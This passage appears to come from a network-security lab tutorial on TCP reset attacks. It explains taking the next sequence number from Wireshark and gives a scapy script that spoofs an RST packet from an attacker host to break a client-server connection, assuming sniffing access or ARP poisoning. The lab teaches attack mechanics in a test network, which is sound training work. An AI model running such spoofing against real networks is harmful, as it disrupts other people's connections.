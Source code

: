     <img src="../../assets/a3/a3-fig-3.png" alt="Disabling Relative Sequence Numbers" style="width: 100%; height: auto;"/>
</p>
<p align="center">
    Fig3. Disabling Relative Sequence Numbers
</p>

> Note the “**Next Sequence number**” in the “**Transmission Control Protocol**” panel (it can be seen in above screenshot). Attacker will use this sequence number for sending the next packet. 

2. We will use `scapy`, a python-based packet generator, for spoofing the packets. The following code will send a `RST` packet, run this from `Internal-Attacker-2`'s terminal. (You need to enter values of ”CLIENT's IP”, ”SERVER's IP”, ”sport”, and sequence number, these values can be obtained from Wireshark). 

    Here the assumption is that the attacker has traffic sniffing access to `Corp-Switch`, or attacker is able to perform ARP poisoning attack and capture the TCP packets. Use the below code to create `reset.py`.
    ```python
    #!/usr/bin/python3
    import sys
    from scapy.all import *
    print("sending reset packet...")
    IPLayer = IP (src="CLIENT's IP", dst = "SERVER's IP")
    TCPLayer = TCP (sport=37766, dport=80, flags="R", seq=506005543)
    pkt=IPLayer/TCPLayer
    ls(pkt)
    send(pkt,verbose=0)
    ```

    <p align="center">